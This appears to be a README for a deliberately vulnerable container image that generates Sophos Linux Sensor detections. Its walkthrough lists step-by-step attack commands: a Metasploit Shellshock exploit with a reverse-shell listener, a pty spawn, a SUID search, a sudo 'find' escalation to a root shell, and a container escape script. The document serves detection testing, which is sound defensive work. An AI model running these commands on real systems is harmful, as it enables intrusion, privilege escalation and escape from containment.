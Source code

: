 # sophShock

This image is for generating Sophos Linux Sensor detections.
For testing purposes only, advised not to run this in a public facing manner.

#Walk Thru

#Metasploit:
- search shellshock
- use exploit/multi/http/apache_mod_cgi_bash_env_exec

- set RHOST <ip addr>
- set RPORT 8080
- set LHOST <ip addr>
- set LPORT <reverse listening port>
- set TARGETURI /cgi-bin/shockme.cgi 
- run 

# establish tty
python -c 'import pty; pty.spawn("/bin/bash")'

# switch to user with sudo privileges
 (will add recon file with pw for sophy user in next update)

# find files with SUID bit set
find / -perm -4000 2>/dev/null

# exploit find binary
sudo find . -exec /bin/bash -i \; -quit
(interactive shell detection from SLS)

# run escape.sh from root directory
(userland container escape detection)
 - outputs are in /output



#references:
- https://betterprogramming.pub/escaping-docker-privileged-containers-a7ae7d17f5a1
- https://github.com/SecurityWeekly/vulhub-lab/tree/master/bash/shellshock
